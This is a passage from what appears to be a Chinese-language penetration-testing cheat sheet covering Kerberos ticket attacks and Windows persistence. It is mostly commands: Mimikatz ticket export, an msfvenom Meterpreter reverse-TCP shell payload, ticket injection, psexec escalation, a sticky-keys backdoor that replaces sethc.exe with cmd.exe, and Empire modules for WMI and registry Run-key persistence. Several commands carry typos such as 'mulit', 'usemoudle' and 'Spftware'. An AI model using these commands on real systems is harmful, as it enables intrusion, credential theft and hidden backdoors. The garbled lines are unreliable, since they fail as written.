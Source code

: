 ```
kerberos::clist "a.bin" /export
```
- 生成反向shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST LPORT -f exe >shell.exe
```
- 票据注入

```
use exploit/mulit/reverse_tcp

load wiki
kerberos_ticket_use a.kirbi
```

- 高权限票据测试

```
use/exploit/windows/local/current_user_psexec
```

## 权限维持及防御
### 操作系统后门
#### 粘滞键后门

- 替换

```
cd windows\system32
Move sethc.exe sethc.exe.bak
copy cmd.exe sethc.exe
```
- Empire

```
usemoudle lateral_movement/invoke_wmi_debuggerinfo

set List shuteet
set ComputerName WIN7-64.shuteer.testlab
set TargetBinary sethc.exe
execute
```

#### 注册表注入后门

- Empire

```
usemoudle persistence/userland/registry

set Listener shuteer
set RegPath HKCU:Spftware\Microsoft\Windows\CurrentVersion\Run
execute
```
